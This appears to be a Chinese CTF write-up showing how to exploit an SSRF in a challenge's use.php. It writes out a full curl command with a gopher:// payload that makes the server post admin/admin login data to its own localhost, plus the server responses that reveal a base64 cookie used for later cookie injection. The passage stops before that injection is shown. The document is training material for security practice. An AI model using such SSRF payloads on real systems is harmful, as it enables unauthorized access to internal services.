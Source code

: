 这一关一开始给了登录框，但是似乎没法注入，如果直接注入会提示you are not an inner user, so we can not let you have identify~

查看源代码，发现一个use.php

访问use.php
![[Pasted image 20231211104038.png]]
很容易猜测这是一个ssrf的利用

因此构造gopher包来进行访问

如果直接这样访问或者随便post看到的是

```
HTTP/1.1 200 OK
Date: Fri, 18 Sep 2020 17:21:16 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 589
Connection: close
Content-Type: text/html; charset=UTF-8

```

实际上因为这里的登录框是用来校验这个用户名和密码是否再数据库中存在的，同时会设置cookie为base64的用户名，这个地方引发的是cookie注入

使用admin,admin这个弱密码账号

```
curl -gv http://39.105.136.196:30022/use.php?url=gopher://127.0.0.1:80/_POST%20%2findex.php%20HTTP%2f1.1%250d%250aHost%3A%20localhost%3A80%250d%250aCookie%3A%20PHPSESSID%3D1f546328759632456215236845122365%3B%250d%250aConnection%3A%20close%250d%250aContent-Type%3A%20application%2fx-www-form-urlencoded%250d%250aContent-Length%3A%2024%250d%250a%250d%250auname%3Dadmin%2526passwd%3Dadmin
```

```
gopher://127.0.0.1:80/_POST /index.php HTTP/1.1
Host: localhost:80
Cookie: PHPSESSID=1f546328759632456215236845122365;
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

uname=admin&passwd=admin
```

改为上述的包后，可以看到

```
HTTP/1.1 302 Found
Date: Fri, 18 Sep 2020 17:28:11 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: this_is_your_cookie=YWRtaW4%3D; expires=Fri, 18-Sep-2020 18:28:11 GMT; Max-Age=3600
Location: index.php
Content-Length: 544
Connection: close
Content-Type: text/html; charset=UTF-8
```
